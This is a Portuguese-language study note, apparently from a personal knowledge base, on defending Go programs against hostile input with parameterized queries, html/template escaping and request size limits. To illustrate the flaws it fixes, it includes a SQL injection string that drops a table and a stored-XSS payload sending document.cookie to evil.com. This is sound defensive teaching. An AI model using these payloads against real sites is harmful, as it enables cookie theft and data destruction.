

# Validação e sanitização de input

> [!abstract] TL;DR
> Toda entrada que cruza a fronteira do seu programa — body de request, query param, form, header, argumento de CLI — é **hostil até prova em contrário**. Em Go, três mecanismos concretos cobrem a maior parte da defesa: (1) **queries parametrizadas** via `database/sql` (placeholders `$1`/`?`, nunca `fmt.Sprintf` dentro de SQL) eliminam SQL injection na raiz, porque o driver separa código de dado antes de a query chegar ao banco; (2) `html/template` faz **escaping automático e sensível ao contexto** — sabe se está escrevendo dentro de uma tag, um atributo, uma URL ou um bloco `<script>`, e escapa diferente para cada um; `text/template` não sabe disso e não deve tocar HTML nunca; (3) **limites de tamanho** (`http.MaxBytesReader`, `multipart.Form.maxMemory`, `json.Decoder` sem *streaming* ilimitado) evitam que um payload gigante derrube o processo antes mesmo de qualquer validação de conteúdo rodar. Validação de estrutura/tipo (parse) e validação de regra de negócio (é um e-mail válido? o CPF existe?) são camadas diferentes — a primeira Go força pelo sistema de tipos, a segunda é sempre código seu.

## O formulário que parecia inofensivo

Imagine um endpoint HTTP simples: recebe um JSON com nome e biografia, grava no banco, e depois mostra a biografia numa página de perfil.

```go
type Perfil struct {
    Nome string `json:"nome"`
    Bio  string `json:"bio"`
}

func handleCriarPerfil(w http.ResponseWriter, r *http.Request) {
    var p Perfil
    json.NewDecoder(r.Body).Decode(&p)

    query := fmt.Sprintf("INSERT INTO perfis (nome, bio) VALUES ('%s', '%s')", p.Nome, p.Bio)
    db.Exec(query)

    w.WriteHeader(http.StatusCreated)
}
```

Compila. Funciona no teste manual com "Josenaldo" e "Dev Go". E tem três falhas de segurança simultâneas, cada uma silenciosa até alguém explorar:

1. **SQL injection**: se `Nome` chegar como `'); DROP TABLE perfis; --`, a string formatada vira uma segunda instrução SQL válida. `fmt.Sprintf` não sabe que está montando SQL — só concatena texto.
2. **XSS armazenado**: se a página de perfil mais tarde renderizar `Bio` com `text/template` (ou pior, `+` de string), um `Bio` contendo `<script>fetch('//evil.com?c='+document.cookie)</script>` executa no navegador de quem visitar o perfil.
3. **DoS por payload**: `r.Body` não tem limite. Um `Content-Length` de 2 GB (ou nem isso — um body chunked sem fim) consome memória e CPU decodificando algo que nunca devia ter passado do primeiro byte.

As três falhas têm a mesma raiz: **tratar dado como se fosse confiável antes de prová-lo confiável**. As três têm mecanismo padrão de correção na stdlib de Go — sem biblioteca externa obrigatória para nenhuma delas.

## O funil de defesa

Antes do código de cada camada, vale ver como elas se encaixam — porque a ordem importa. Limite de tamanho vem primeiro (rejeita cedo, barato); parsing/validação de estrutura vem depois; a query parametrizada e o escaping de saída são a última linha, mas continuam necessários mesmo que a validação de entrada seja perfeita, porque protegem contra *qualquer* dado que chegue àquele ponto — inclusive dado que passou raspando por uma regra de validação incompleta.



Cada losango é um ponto de rejeição — e cada um barato *antes* dele evita gastar trabalho num payload que vai ser descartado de qualquer forma. Rejeitar por tamanho antes de decodificar é mais barato que decodificar 2 GB de JSON só para descobrir, no fim, que o campo obrigatório está faltando.

## Caso prático 1 — SQL injection: por que placeholder, não `Sprintf`

A [[03-Dominios/Tecnologia/Go/11 - Persistência/03 - Query, Scan e o mapeamento manual|nota 03 do Galho 11]] já cobriu `Query`/`Exec`/`Scan` como mecânica de `database/sql` — o ponto aqui é estritamente de segurança: por que a *mesma* API que você já usa para consultar dados também é a defesa contra injection, sem esforço extra.

```go
// NUNCA: concatenação monta SQL com dado do usuário embutido no texto
nome := "'); DROP TABLE perfis; --"
query := fmt.Sprintf("SELECT id FROM perfis WHERE nome = '%s'", nome)
db.QueryRow(query) // a string acima vira duas instruções SQL

// SEMPRE: placeholder — o driver manda o SQL e o dado em canais separados
var id int
err := db.QueryRow("SELECT id FROM perfis WHERE nome = $1", nome).Scan(&id)
// $1 é sintaxe de placeholder do driver Postgres (pgx/lib/pq); outros
// drivers usam ? (MySQL, SQLite) — a ideia é idêntica em todos.
```

A diferença não é estética. Na primeira versão, `nome` é interpolado no **texto** da query antes de o banco vê-la — o parser SQL do servidor não tem como distinguir "isso é um valor de string" de "isso é uma nova instrução". Na segunda, `db.QueryRow` manda a query com o placeholder `$1` **e** o valor de `nome` como dado estruturado separado, num protocolo binário — o parser SQL do servidor nunca enxerga o conteúdo de `nome` como texto de comando, só como valor de bind. Não existe combinação de aspas, ponto-e-vírgula ou comentário SQL dentro de `nome` capaz de escapar dessa separação, porque a separação acontece no protocolo, não em escaping de string.

```go
// Mesma lógica vale para Exec, com múltiplos placeholders:
_, err := db.Exec(
    "INSERT INTO perfis (nome, bio) VALUES ($1, $2)",
    p.Nome, p.Bio,
)
```

> [!warning] Nome de tabela/coluna dinâmico não pode ser placeholder
> Placeholders parametrizam **valores** (o que vai na cláusula `WHERE campo = $1`), não **identificadores** (nome de tabela, nome de coluna, direção de `ORDER BY`). `db.Query("SELECT * FROM $1", tabela)` não funciona — o driver tenta tratar `$1` como uma string literal, não como o nome de uma tabela. Se o nome da tabela/coluna precisa vir de input externo (raro, e geralmente sinal de design a repensar), a defesa é uma **allowlist** explícita — validar que o valor recebido é um dos poucos nomes esperados — nunca concatenar direto, mesmo com algum "sanitizador" de string.

## Caso prático 2 — escaping em `html/template`

`html/template` e `text/template` têm a mesma API de superfície — `Parse`, `Execute`, a mesma linguagem de template `{{ .Campo }}`. A diferença inteira está em uma palavra do nome do pacote, e ela é a diferença entre seguro e vulnerável a XSS.

```go
import "html/template"

tmpl := template.Must(template.New("perfil").Parse(`<h1>{{.Nome}}</h1><p>{{.Bio}}</p>`))

p := Perfil{
    Nome: "Josenaldo",
    Bio:  `<script>alert('xss')</script>`,
}

tmpl.Execute(w, p)
// Saída: <h1>Josenaldo</h1><p>&lt;script&gt;alert(&#39;xss&#39;)&lt;/script&gt;</p>
// O navegador mostra o texto literal "<script>...", não executa nada.
```

`html/template` faz *parsing* do próprio template HTML e sabe, em cada `{{ }}`, **em qual contexto** aquele valor vai cair — dentro de texto de tag, dentro de um atributo `href`, dentro de um bloco `<script>`, dentro de `style`. Cada contexto tem regras de escaping diferentes (uma URL escapa diferente de um texto HTML comum), e o pacote escolhe a certa automaticamente:

```go
tmplLink := template.Must(template.New("link").Parse(`<a href="{{.URL}}">clique</a>`))

dados := struct{ URL string }{URL: `javascript:alert(1)`}
tmplLink.Execute(w, dados)
// html/template reconhece contexto de URL perigosa e neutraliza o esquema:
// <a href="#ZgotmplZ">clique</a>
```

```go
// text/template NÃO faz nada disso — é escaping zero, sempre:
import ttext "text/template"

tmplRuim := ttext.Must(ttext.New("perfil").Parse(`<h1>{{.Nome}}</h1><p>{{.Bio}}</p>`))
tmplRuim.Execute(w, p)
// Saída: <h1>Josenaldo</h1><p><script>alert('xss')</script></p>
// Isso executa no navegador. XSS armazenado, direto do banco pra tela.
```

> [!warning] `text/template` gerando HTML é o bug mais comum desta seção
> `text/template` foi desenhado para **texto genérico** — e-mails, configs, qualquer saída que não seja HTML/JS interpretado por um navegador. Ele não tem noção de contexto HTML e não escapa nada. Usá-lo para gerar uma página web é abrir mão de toda a proteção que `html/template` dá de graça, trocando uma importação por outra que parece quase idêntica. A regra prática: **se a saída vai para um navegador, é `html/template` — sem exceção, sem "é só um protótipo".**

Quando o valor precisa ser HTML de verdade — por exemplo, um editor rich-text que já produz markup confiável — `html/template` oferece o tipo `template.HTML`, que **desliga o escaping** para aquele valor específico:

```go
// template.HTML marca o valor como "já é HTML seguro, não escape"
conteudoConfiavel := template.HTML("<b>negrito</b>")
```

> [!warning] `template.HTML` é uma promessa que o programa faz sobre um dado que não controla
> `template.HTML(entradaDoUsuario)` reintroduz XSS de propósito — é literalmente dizer ao pacote "confie neste texto, não escape". Só é seguro converter para `template.HTML` conteúdo que passou por um **sanitizador de HTML** dedicado (que faz parsing do markup e remove tags/atributos perigosos, como `<script>` ou `onerror=`) ou que nunca veio de input externo. Nunca envolva `r.FormValue(...)` direto em `template.HTML`.

## Caso prático 3 — validação de estrutura e regra de negócio

`encoding/json` já faz uma primeira camada de validação de graça: se o JSON não bate com os tipos do struct, `Decode` retorna erro — um `"idade": "trinta"` contra um campo `Idade int` falha no parse, antes de qualquer lógica sua rodar. Mas isso é só **validação de tipo**, não de regra de negócio: um JSON com `"Idade": -5` ou `"Email": "não é email"` passa pelo `Decode` sem erro nenhum, porque `-5` é um `int` perfeitamente válido e `"não é email"` é uma `string` perfeitamente válida.

```go
type CadastroInput struct {
    Nome  string `json:"nome"`
    Email string `json:"email"`
    Idade int    `json:"idade"`
}

func (c CadastroInput) Validar() error {
    var problemas []string

    if strings.TrimSpace(c.Nome) == "" {
        problemas = append(problemas, "nome é obrigatório")
    }
    if !strings.Contains(c.Email, "@") {
        problemas = append(problemas, "email inválido")
    }
    if c.Idade < 0 || c.Idade > 150 {
        problemas = append(problemas, "idade fora da faixa esperada")
    }

    if len(problemas) > 0 {
        return fmt.Errorf("validação falhou: %s", strings.Join(problemas, "; "))
    }
    return nil
}

func handleCadastro(w http.ResponseWriter, r *http.Request) {
    var in CadastroInput
    if err := json.NewDecoder(r.Body).Decode(&in); err != nil {
        http.Error(w, "JSON malformado", http.StatusBadRequest)
        return
    }
    if err := in.Validar(); err != nil {
        http.Error(w, err.Error(), http.StatusUnprocessableEntity)
        return
    }
    // in agora está validado: seguro passar para a camada de persistência
}
```

Esse `Validar()` manual funciona e é comum em bases pequenas. Em bases maiores, a comunidade Go converge para bibliotecas de validação declarativa por *struct tag* — `go-playground/validator` é a mais adotada — que fazem o mesmo trabalho com menos código repetido:

```go
import "github.com/go-playground/validator/v10"

type CadastroInput struct {
    Nome  string `json:"nome" validate:"required"`
    Email string `json:"email" validate:"required,email"`
    Idade int    `json:"idade" validate:"gte=0,lte=150"`
}

var validate = validator.New()

func handleCadastro(w http.ResponseWriter, r *http.Request) {
    var in CadastroInput
    json.NewDecoder(r.Body).Decode(&in)

    if err := validate.Struct(in); err != nil {
        http.Error(w, err.Error(), http.StatusUnprocessableEntity)
        return
    }
}
```

O mecanismo por trás é `reflect` lendo as *struct tags* em tempo de execução — o mesmo mecanismo que a [[03-Dominios/Tecnologia/Go/02 - Tipos, structs e métodos/07 - Struct tags e reflection básica|nota 07 do Galho 2]] já explicou para `encoding/json`. `validate:"required,email"` não é mágica nova, é o padrão de tag + reflection aplicado a um domínio diferente.

## Caso prático 4 — limites de tamanho

Sem limite explícito, um handler HTTP em Go vai tentar ler o body inteiro da request, não importa o tamanho — `r.Body` é um `io.ReadCloser` que só para quando o cliente para de mandar bytes ou a conexão cai. `http.MaxBytesReader` resolve isso envolvendo o body com um limite duro:

```go
func handleCriarPerfil(w http.ResponseWriter, r *http.Request) {
    const limiteMB = 1 << 20 // 1 MiB
    r.Body = http.MaxBytesReader(w, r.Body, limiteMB)

    var p Perfil
    dec := json.NewDecoder(r.Body)
    dec.DisallowUnknownFields() // bônus: rejeita campos que o struct não espera

    if err := dec.Decode(&p); err != nil {
        var maxBytesErr *http.MaxBytesError
        if errors.As(err, &maxBytesErr) {
            http.Error(w, "payload excede o limite permitido", http.StatusRequestEntityTooLarge)
            return
        }
        http.Error(w, "JSON malformado", http.StatusBadRequest)
        return
    }
}
```

> [!info] `*http.MaxBytesError` como erro tipado é da 1.19+
> Antes da 1.19, ultrapassar o limite de `MaxBytesReader` produzia um erro de string genérica (`"http: request body too large"`), sem tipo exportado para checar com `errors.As`. Desde a 1.19, `*http.MaxBytesError` é um tipo público — dá para distinguir programaticamente "estourou o limite" de qualquer outro erro de leitura, sem comparar string de mensagem.

Upload multipart (formulário com arquivo) tem o próprio limite, independente do `MaxBytesReader` do body inteiro — `ParseMultipartForm` recebe um `maxMemory` que controla quanto fica em RAM antes de passar a gravar em arquivo temporário no disco:

```go
func handleUpload(w http.ResponseWriter, r *http.Request) {
    const limiteMB = 10 << 20 // 10 MiB em memória; excedente vai a disco temporário
    if err := r.ParseMultipartForm(limiteMB); err != nil {
        http.Error(w, "form inválido ou grande demais", http.StatusBadRequest)
        return
    }

    arquivo, header, err := r.FormFile("upload")
    if err != nil {
        http.Error(w, "campo 'upload' ausente", http.StatusBadRequest)
        return
    }
    defer arquivo.Close()

    if header.Size > 5<<20 {
        http.Error(w, "arquivo maior que 5 MiB", http.StatusRequestEntityTooLarge)
        return
    }
    // processar arquivo...
}
```

Repare que `maxMemory` de `ParseMultipartForm` não é um teto rígido de tamanho de upload — é o ponto de corte entre "guarda em RAM" e "guarda em arquivo temporário". O teto rígido de verdade continua sendo `http.MaxBytesReader` no body, combinado com um `header.Size` checado explicitamente por campo, como acima.

## Armadilhas comuns

> [!warning] Validar só no client (JavaScript) não vale nada como defesa
> Um `required` de HTML ou uma checagem de JavaScript no navegador impede o usuário *legítimo* de errar por acidente — não impede um atacante de montar a request diretamente com `curl` ou um script, pulando o formulário inteiro. Toda validação que importa para segurança roda no servidor, sempre; validação client-side é só UX.

> [!warning] `fmt.Sprintf` dentro de qualquer chamada de `database/sql` é o cheiro clássico de SQL injection
> Se você ver `db.Query(fmt.Sprintf(...))` ou `db.Exec("... " + variavel + " ...")` em qualquer revisão de código, é bug de segurança até prova em contrário — não existe forma segura de montar SQL por concatenação de string com dado externo. A correção é sempre trocar por placeholder (`$1`, `?`) e passar o valor como argumento separado.

> [!warning] Confiar em `Content-Length` do header sem `MaxBytesReader`
> `Content-Length` é informado pelo próprio cliente — nada impede um cliente malicioso de mandar um header mentiroso (ou nenhum, com `Transfer-Encoding: chunked`) e um body real muito maior. `http.MaxBytesReader` enforça o limite na leitura de fato, byte a byte, independente do que o header alega.

> [!warning] Validação incompleta que só cobre o "caminho feliz"
> `strings.Contains(email, "@")` não valida e-mail — só rejeita o caso mais óbvio. Para regras que importam de verdade (formato de e-mail RFC-completo, CPF com dígito verificador, faixa de datas), prefira uma biblioteca testada (`go-playground/validator` cobre e-mail com regra mais completa que um `Contains` manual) a reinventar regex frágil.

## Vindo de outra stack

| Vindo de | Em Go é assim |
|---|---|
| Java (Bean Validation `@NotNull`/`@Email`, JSR-380) | Sem anotação nativa no compilador; struct tags + `go-playground/validator` reproduzem a ideia via reflection, não via anotações processadas em build |
| Java/JDBC (`PreparedStatement`) | `database/sql` com placeholder (`$1`/`?`) é o mesmo mecanismo — parametrização no protocolo, não escaping de string |
| Python/Django (forms `.is_valid()`, ORM parametrizado por padrão) | Validação é sempre explícita em Go — não há "ORM que já parametriza tudo sozinho" embutido na stdlib; `database/sql` parametriza se você usar placeholder, mas nada impede escrever a versão insegura |
| Python (Jinja2 `autoescape=True` por padrão em muitos setups) | `html/template` também autoescapa por padrão — mas Go tem dois pacotes de template (`html/` vs `text/`) e é fácil importar o errado por engano |
| Node/Express (`express-validator`, Joi, Zod) | Papel equivalente a `go-playground/validator`; a diferença é que em Go a validação roda contra structs tipados, não contra objetos dinâmicos |
| Node (`pg` com placeholder `$1`, ou `mysql2` com `?`) | Exatamente o mesmo padrão de placeholder que `database/sql` usa — a defesa contra SQL injection é idêntica em espírito |

## Como explicar em inglês

> Untrusted input in Go is defended at three concrete points, not one. **SQL injection** is prevented by parameterized queries — `db.Query("... WHERE id = $1", id)` sends the SQL text and the value over separate channels in the wire protocol, so no amount of quote- or semicolon-stuffing in the value can be reinterpreted as SQL syntax; string concatenation with `fmt.Sprintf` inside a query is the textbook vulnerability. **XSS** is prevented by `html/template`, which parses the template and escapes each `{{ }}` differently depending on HTML context — text, attribute, URL, or script block — automatically; its sibling `text/template` has zero escaping and must never render HTML that includes user input. **Denial of service via oversized payloads** is prevented by enforcing size limits before decoding — `http.MaxBytesReader` caps the request body regardless of what the client's `Content-Length` header claims, and `multipart.Form`'s `maxMemory` controls the RAM/disk cutoff for file uploads. None of this replaces business-rule validation (is this a real email? is this age in range?) — that layer is always your own code, whether hand-written or declared via struct tags with a library like `go-playground/validator`.

| Termo PT | Termo EN |
|---|---|
| validação de entrada | input validation |
| sanitização | sanitization |
| injeção de SQL | SQL injection |
| query parametrizada | parameterized query |
| placeholder / marcador de posição | placeholder |
| escaping sensível a contexto | context-aware escaping |
| campo obrigatório | required field |
| limite de tamanho | size limit |
| payload | payload |
| negação de serviço | denial of service (DoS) |

## O que vem a seguir

Validar e escapar corretamente protege contra input malicioso que chega em tempo de execução — mas e as vulnerabilidades que já estão dentro das próprias dependências que seu `go.mod` puxa, sem você nunca ter escrito uma linha delas? A [[05 - govulncheck e supply chain|próxima nota]] muda de eixo: de "input hostil em produção" para "vulnerabilidade conhecida numa dependência transitiva" — com `govulncheck` como a ferramenta que a própria toolchain de Go oferece para caçar esse problema antes do deploy.

## Veja também

- [[01 - Segurança em Go — o panorama|01 — Segurança em Go, o panorama]] — mapa geral do galho, onde esta nota se encaixa
- [[02 - crypto na stdlib|02 — crypto na stdlib]] — nota irmã anterior
- [[03 - TLS em Go|03 — TLS em Go]] — nota irmã anterior
- [[05 - govulncheck e supply chain|05 — govulncheck e supply chain]] — próxima nota do galho
- [[03-Dominios/Tecnologia/Go/11 - Persistência/03 - Query, Scan e o mapeamento manual|Galho 11, nota 03 — Query, Scan e o mapeamento manual]] — mecânica completa de `Query`/`Exec`/`Scan` que sustenta o caso prático de SQL injection aqui
- [[03-Dominios/Tecnologia/Go/02 - Tipos, structs e métodos/07 - Struct tags e reflection básica|Galho 2, nota 07 — Struct tags e reflection]] — o mecanismo de tag + reflection que `validator` reaproveita
- [[03-Dominios/Tecnologia/Go/index|Trilha Go]]

## Fontes

- The Go Authors. *Package database/sql*. pkg.go.dev. https://pkg.go.dev/database/sql (acessado em 2026-07-18)
- The Go Authors. *Package html/template*. pkg.go.dev. https://pkg.go.dev/html/template (acessado em 2026-07-18)
- The Go Authors. *Package net/http — MaxBytesReader*. pkg.go.dev. https://pkg.go.dev/net/http#MaxBytesReader (acessado em 2026-07-18)
- The Go Authors. *Package encoding/json*. pkg.go.dev. https://pkg.go.dev/encoding/json (acessado em 2026-07-18)
- The Go Authors. *Package mime/multipart*. pkg.go.dev. https://pkg.go.dev/mime/multipart (acessado em 2026-07-18)
